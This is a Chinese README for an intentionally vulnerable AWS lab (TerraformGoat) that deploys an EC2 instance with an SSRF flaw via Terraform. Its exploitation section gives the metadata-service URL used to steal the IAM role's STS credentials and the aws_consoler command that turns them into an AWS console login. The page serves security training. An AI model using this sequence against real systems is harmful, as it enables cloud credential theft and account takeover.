 # AWS 控制台接管漏洞环境

[English](./README.md) | 中文

## 描述信息

这是一个用于构建 AWS 控制台接管漏洞环境的靶场。

使用 Terraform 构建环境后，用户可以通过 SSRF 漏洞获取到 EC2 上的 STS 数据，从而接管 AWS 控制台。

## 环境搭建

在容器中执行以下命令

```shell
cd /TerraformGoat/aws/ec2/console_takeover/
```

配置 AWS 访问凭证

```shell
aws configure
```

> 在 AWS 「控制台——》安全凭证」处可以设置并查看你的 `aws_access_key_id` 和 `aws_secret_access_key`

部署靶场

```shell
terraform init
terraform apply
```

> 在终端提示 `Enter a value:` 时，输入 `yes` 即可

环境搭建完后，在 Outputs 处可以看到靶场的访问地址，打开浏览器访问即可

## 漏洞利用

在存在 SSRF 漏洞的 EC2 上，我们可以利用 SSRF 读取 EC2 的 STS 数据。

读取 STS 信息

```shell
http://169.254.169.254/latest/meta-data/iam/security-credentials/huoxian_terraform_goat_role
```

![img](../../../images/1652434082.png)

利用 aws_consoler 生成 AWS 控制台访问链接

```shell
apt install python3-pip
pip install aws-consoler
aws_consoler -R us-east-1 -a {Your_AccessKeyId} -s {Your_SecretAccessKey} -t {Your_Token}
```

将生成的链接复制到浏览器中打开，就可以接管目标的 AWS 服务控制台了。

![img](../../../images/1652435065.png)

## 销毁环境

```shell
terraform destroy
```
